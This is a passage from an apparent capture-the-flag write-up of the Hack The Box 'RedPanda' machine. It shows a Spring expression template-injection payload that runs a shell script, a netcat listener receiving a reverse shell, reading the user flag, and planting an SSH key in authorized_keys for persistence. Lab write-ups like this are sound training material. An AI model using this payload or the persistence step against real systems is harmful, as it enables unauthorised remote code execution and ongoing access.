 And then execute the script.

```http
POST /search HTTP/1.1
Host: target.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://target.htb:8080
Connection: close
Referer: http://target.htb:8080/
Upgrade-Insecure-Requests: 1

name=*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

My netcat listener got a hit, and I was able to get the user flag.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.49.163 40732
bash: cannot set terminal process group (867): Inappropriate ioctl for device
bash: no job control in this shell

woodenk@redpanda:/tmp/hsperfdata_woodenk$ whoami
whoami
woodenk

woodenk@redpanda:/tmp/hsperfdata_woodenk$ cd
cd

woodenk@redpanda:~$ ls
ls
user.txt

woodenk@redpanda:~$ cat user.txt
cat user.txt
REDACTED
```

## Privilege Escalation

Before I tried to get root on the box, I copied my ssh key to the server and reconnected with ssh.

```bash
woodenk@redpanda:~$ mkdir .ssh
mkdir .ssh

woodenk@redpanda:~$ chmod 700 .ssh
chmod 700 .ssh

woodenk@redpanda:~$ echo ssh-rsa PUBLIC_KEY > .ssh/authorized_keys

woodenk@redpanda:~$ chmod 600 .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```
